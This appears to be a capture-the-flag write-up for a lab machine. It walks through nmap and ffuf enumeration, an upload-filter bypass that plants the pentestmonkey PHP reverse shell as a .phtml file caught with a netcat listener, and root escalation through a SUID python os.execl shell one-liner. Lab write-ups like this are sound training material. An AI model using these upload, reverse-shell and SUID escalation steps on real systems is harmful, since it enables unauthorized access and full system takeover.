

Target: 10.10.255.188 

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.255.188   

Nmap scan report for 10.10.255.188
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.255.188/FUZZ

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 314, Words: 20, Lines: 10]
```

checking index


checking /panel



### Findings:Looking for attack vectors

In /panel files can be uploaded with restrictions and in /uploads uploaded files can be accessed.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.phtml
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
<snip>
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded file in  /uploads


```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@rootme:/usr/bin$ cd /var/www

www-data@rootme:/var/www$ ls

html  user.txt

www-data@rootme:/var/www$ cat user.txt  

<redacted>
```


## Priv Escalations:

enumerating SUID
```
www-data@rootme:/var/www$ find / -perm -u=s -type f 2> /dev/null

<snip>                                                                       
/usr/bin/traceroute6.iputils                                                                                       
/usr/bin/newuidmap                                                                                                 
/usr/bin/newgidmap                                                                                                 
/usr/bin/chsh                                                                                                      
/usr/bin/python                                                                                                    
/usr/bin/at                                                                                                        
/usr/bin/chfn                                                                                                      
/usr/bin/gpasswd                                                                                                   
/usr/bin/sudo                                                                                                      
/usr/bin/newgrp                                                                                                    
/usr/bin/passwd                                                                                                    
/usr/bin/pkexec                                                                                                    
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

exploiting python SUID
```
www-data@rootme/var/www: /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
# id

uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

```
# cat /root/root.txt

<redacted>
```
